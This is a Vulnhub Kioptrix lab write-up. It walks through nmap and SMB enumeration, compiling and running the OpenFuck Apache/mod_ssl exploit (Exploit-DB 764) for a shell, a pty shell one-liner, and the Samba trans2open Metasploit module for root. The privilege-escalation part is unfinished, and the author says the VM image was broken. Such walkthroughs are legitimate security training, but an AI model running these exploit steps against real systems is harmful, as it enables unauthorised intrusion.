










# Author; Panagiotis Fiskilis/Neuro #

## Machine name: Vulnhub: Kioptrix ##

<b>

My IP: 192.168.1.16

Machine IP:

</b>

### Enumeration: ###

#### Nmap: ####

We start with Host discovery:

```bash
nmap -sP 192.168.1.*
```



The <code>192.168.1.1</code> IP is the router.

The <code>192.168.1.16</code> IP is my attack mchine.

The <code>192.168.1.11</code> IP is my phone.

The <code>192.168.1.20</code> IP is the Kioptrix box.

We start with Nmap port scanning:

```bash
sudo nmap -sS -sV -sC -O 192.168.1.20 |tee Nmap/nmap.init
nmap -p- 192.168.1.20 |tee Nmap/nmap_all_ports.log
sudo nmap -sU 192.168.1.20 |tee Nmap/nmap_UDP.log
nmap --script vuln 192.168.1.20 |tee Nmap/nmap.vulns
```



On the HTTP and HTTPS ports we get a standard apache page.



From Nmap we have a domain name:

```
nonexistent.corp
```

#### Dirbuster: ####



We get the following default apache pages:



#### SMB Enumeration: ####

Found workgroup(from Nmap):

```
tMYGROUP
```

We system runs samba so we use enum4linux:

```bash
enum4linux -a nonexistent.corp |tee enum4linux.log
```

### Initial: ###

From the Nmap initial we can see that the Apache server is outdated and vulnerable:



After some googling search I found the following RCE buffer overflow(CVE-2002-0082):

```
https://www.exploit-db.com/exploits/764
```

Tried to compile the above mentioned exploit and got some errors so I started googling:

```
https://monkeydouy.medium.com/how-to-compile-openfuckv2-c-69e457b4a1d1
```

Followed the instructions and have an exploit ready to be compiled and give as RCE:

```bash
gcc 764.c -o 764 -lcrypto
./764
./764 |grep "RedHat" |grep "1.3.20"
```



We will use 0x6a initially:

We will use 0x6a initially:

```bash
./764 0x6a 192.168.1.20 443
```

It failed so let's try `0x6b`:

```bash
./764 0x6b 192.168.1.20 443
```



We manage to get a shell as `apache` Let's get root.

### Priv. Esc. ###

Let's make our shell stable and set the `TERM` variable.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
TERM=xterm
```

We download linpeas.

Found the following cron job that can elevate our privileges.



After some googling I managed to find a one-exploit root on smb:

```
exploit/linux/samba/trans2open
```



Later I found that the VM image I had was broken.
